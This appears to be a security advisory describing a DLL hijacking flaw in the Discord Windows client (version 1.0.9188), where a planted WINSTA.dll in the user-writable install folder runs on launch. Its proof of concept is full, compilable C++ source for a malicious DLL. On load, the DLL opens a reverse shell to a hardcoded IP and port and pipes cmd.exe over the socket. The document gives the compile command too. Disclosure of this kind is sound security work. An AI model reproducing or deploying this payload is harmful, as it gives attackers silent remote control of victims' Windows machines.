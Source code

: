 # DLL Hijacking in Discord V1.0.9188 (Windows Client) Leads to Remote Code Execution (RCE)

## Summary

A critical **DLL hijacking vulnerability** exists in Discord version `1.0.9188` (Windows client) that allows an attacker to achieve **Remote Code Execution (RCE)** by placing a malicious DLL (`WINSTA.dll`) in the user-writable Discord installation directory.

This issue is trivially exploitable and poses a significant security risk, especially in environments where Discord is installed for multiple users or auto-launches at system startup.

---

## Vulnerable Path

```
C:\Users\<username>\AppData\Local\Discord\app-1.0.9188\WINSTA.dll
```

- Discord attempts to load `WINSTA.dll` on launch.
- If the DLL is missing, it is searched for in the local directory first.
- Since this folder is user-writable, an attacker can drop a malicious DLL here.

---

## Proof of Concept

A custom `WINSTA.dll` was created to launch a reverse shell on Discord startup. The application loaded the DLL successfully and continued to function as normal — proving the hijack worked and that the injection was silent.

### Reverse Shell Payload (DLL)
The following code executes a reverse shell connecting back to the attacker’s IP (`172.21.58.38:4444`) and spawns a `cmd.exe` process redirected over the socket.

```cpp
// x86_64-w64-mingw32-g++ -shared -o patchpoc.dll patchpoc.cpp -lws2_32 -static

#include <winsock2.h>  
#include <windows.h>
#include <ws2tcpip.h>
#include <stdio.h>

#pragma comment(lib, "ws2_32.lib")

DWORD WINAPI ReverseShell(LPVOID lpParam) {
    WSADATA wsaData;
    SOCKET sock;
    struct sockaddr_in server;

    STARTUPINFO si;
    PROCESS_INFORMATION pi;

    // Change IP and port
    const char *ip = "172.21.58.38";
    int port = 4444;

    WSAStartup(MAKEWORD(2, 2), &wsaData);
    sock = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);

    server.sin_family = AF_INET;
    server.sin_port = htons(port);
    server.sin_addr.s_addr = inet_addr(ip);

    if (WSAConnect(sock, (SOCKADDR*)&server, sizeof(server), NULL, NULL, NULL, NULL) == SOCKET_ERROR) {
        closesocket(sock);
        WSACleanup();
        return 1;
    }

    ZeroMemory(&si, sizeof(si));
    si.cb = sizeof(si);
    si.dwFlags = STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW;
    si.hStdInput = si.hStdOutput = si.hStdError = (HANDLE)sock;

    ZeroMemory(&pi, sizeof(pi));
    CreateProcess(NULL, (LPSTR)"cmd.exe", NULL, NULL, TRUE, 0, NULL, NULL, &si, &pi);

    WaitForSingleObject(pi.hProcess, INFINITE);
    CloseHandle(pi.hProcess);
    CloseHandle(pi.hThread);
    closesocket(sock);
    WSACleanup();
    return 0;
}

BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved) {
    if (ul_reason_for_call == DLL_PROCESS_ATTACH) {
        CreateThread(NULL, 0, ReverseShell, NULL, 0, NULL);
    }
    return TRUE;
}
```

## Impact

- **Remote Code Execution** without user interaction
- **Persistence** via application launch
- **No elevation required** — works in standard user context
- **Bypass of DLL loading best practices** (no `LOAD_LIBRARY_SEARCH_SYSTEM32`)

---

## Source
- [gist.github.com/shellkraft/ac4be6a3953e2889a7bf54aea2db88c2](https://gist.github.com/shellkraft/ac4be6a3953e2889a7bf54aea2db88c2)
- [github.com/advisories/GHSA-936r-ccvf-h37h](https://github.com/advisories/GHSA-936r-ccvf-h37h)
